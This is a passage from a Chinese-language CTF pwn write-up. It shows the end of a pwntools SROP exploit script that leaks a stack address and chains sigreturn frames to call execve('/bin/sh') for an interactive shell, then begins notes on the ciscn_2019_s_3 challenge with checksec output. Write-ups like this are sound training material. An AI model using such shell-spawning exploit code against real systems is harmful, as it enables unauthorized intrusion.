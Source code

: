 ```python
leak = u64(p.recv()[8:16])
#print(hex(leak))

sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_read
sigframe.rdi = 0
sigframe.rsi = leak
sigframe.rdx = 0x400
sigframe.rsp = leak
sigframe.rip = syscall_ret
payload2 = p64(start_addr) + p64(0) + bytes(sigframe)
#print(bytes(sigframe))
p.send(payload2)
sleep(0.1)

payload3 = p64(syscall_ret) + b'A'*7
p.send(payload3)
sleep(0.1)

sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_execve
sigframe.rdi = leak+0x120
sigframe.rsi = 0
sigframe.rdx = 0
sigframe.rsp = leak
sigframe.rip = syscall_ret

payload4 = (p64(start_addr) + p64(0) + bytes(sigframe)).ljust(0x120,b'\x00')+b'/bin/sh\x00'
p.send(payload4)
sleep(0.1)

p.send(payload3)

p.interactive()
```

## 2015-defcon-fakeup
> 题目地址：https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/stackoverflow/srop/2015-defcon-fakeup

挖坑~

## ciscn_2019_s_3
> 题目地址：https://buuoj.cn/challenges#ciscn_2019_s_3

### 检查保护
```sh
➜  31.ciscn_2019_s_3 checksec ciscn_s_3 
[*] '/home/zzkkk1h/Desktop/Pwn/BUUCTF/31.ciscn_2019_s_3/ciscn_s_3'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
